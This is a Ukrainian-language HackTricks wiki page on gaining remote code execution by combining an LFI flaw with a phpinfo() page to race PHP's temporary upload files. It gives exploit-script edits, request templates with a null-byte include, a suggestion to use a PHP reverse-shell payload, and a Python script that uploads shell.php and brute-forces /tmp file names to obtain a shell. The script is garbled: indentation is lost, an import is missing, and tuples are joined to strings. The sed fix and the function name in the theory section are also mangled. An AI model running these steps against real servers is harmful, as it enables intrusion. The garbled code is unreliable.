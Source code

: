 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Отримайте перспективу хакера щодо ваших веб-додатків, мережі та хмари

**Знайдіть і повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ спеціальних інструментів для картографування поверхні атаки, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


Щоб експлуатувати цю вразливість, вам потрібно: **Вразливість LFI, сторінка, на якій відображається phpinfo(), "file\_uploads = on" і сервер повинен мати можливість записувати в директорію "/tmp".**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**Tutorial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

Вам потрібно виправити експлойт (змінити **=>** на **=>**). Для цього ви можете зробити:
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
Вам також потрібно змінити **payload** на початку експлойту (наприклад, для php-rev-shell), **REQ1** (це має вказувати на сторінку phpinfo і містити заповнення, тобто: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), та **LFIREQ** (це має вказувати на вразливість LFI, тобто: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Перевірте подвійну "%" під час експлуатації нульового символу)

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### Теорія

Якщо завантаження дозволено в PHP і ви намагаєтеся завантажити файл, цей файл зберігається в тимчасовому каталозі, поки сервер не закінчить обробку запиту, потім цей тимчасовий файл видаляється.

Тоді, якщо ви знайшли вразливість LFI на веб-сервері, ви можете спробувати вгадати ім'я тимчасового файлу, що створюється, і експлуатувати RCE, отримуючи доступ до тимчасового файлу до його видалення.

У **Windows** файли зазвичай зберігаються в **C:\Windows\temp\php**

У **linux** ім'я файлу зазвичай є **випадковим** і розташоване в **/tmp**. Оскільки ім'я випадкове, потрібно **витягти звідкись ім'я тимчасового файлу** і отримати до нього доступ до його видалення. Це можна зробити, прочитавши значення **змінної $\_FILES** всередині вмісту функції "**phpconfig()**".

**phpinfo()**

**PHP** використовує буфер **4096B**, і коли він **повний**, він **надсилається клієнту**. Тоді клієнт може **надіслати** **багато великих запитів** (використовуючи великі заголовки) **завантажуючи php** зворотний **shell**, чекати, поки **перша частина phpinfo() буде повернена** (де знаходиться ім'я тимчасового файлу) і намагатися **отримати доступ до тимчасового файлу** до того, як php сервер видалить файл, експлуатуючи вразливість LFI.

**Скрипт Python для спроби брутфорсити ім'я (якщо довжина = 6)**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Отримайте перспективу хакера щодо ваших веб-додатків, мережі та хмари

**Знайдіть і повідомте про критичні, експлуатовані вразливості з реальним бізнес-імпактом.** Використовуйте наші 20+ спеціальних інструментів для картографування поверхні атаки, знаходження проблем безпеки, які дозволяють вам підвищити привілеї, і використовуйте автоматизовані експлойти для збору важливих доказів, перетворюючи вашу важку працю на переконливі звіти.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
